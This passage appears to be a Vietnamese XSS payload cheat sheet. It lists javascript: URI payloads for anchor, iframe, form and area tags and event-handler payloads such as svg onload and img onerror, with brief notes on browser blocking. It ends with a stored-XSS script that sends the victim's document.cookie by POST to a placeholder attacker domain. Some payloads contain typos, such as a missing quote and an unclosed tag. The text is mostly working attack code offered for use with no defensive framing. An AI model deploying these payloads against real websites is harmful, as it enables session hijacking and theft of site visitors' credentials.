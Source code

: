 Payload:
 `javascript:alert("XSS")` thường được sử dụng cho jQuery và các thẻ 
- `<a href="javascript:alert("XSS")"></a>` 
- `<iframe src="javascript:alert("XSS")"></iframe>`
- `<form action="javascript:alert('XSS')"></form>`
- `<area href="javascript:alert('XSS')">`
Lưu ý: Đa số trình duyệt hiện nay đã chặn `javascript:` trong `src`, `href`, hoặc `action` ở nhiều thẻ, ngoại trừ một số thẻ như `<a>`, `<form>`

`onerror=alert("XSS)`, `onemouseover=alert("XSS")` được dùng cho các thẻ còn lại. Ví dụ như:
- `<svg onload=alert(1)>`
- `<img src=1 onerror=alert(1)`
- Các action có thể chèn vào thẻ input bao gồm: `onmouseover`, `onclick`, `onfocus`, ...


- Payload Stored XSS steal cookie từ victim gửi về trang của attacker
 ```
<script>
fetch('https://attacker-domain', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
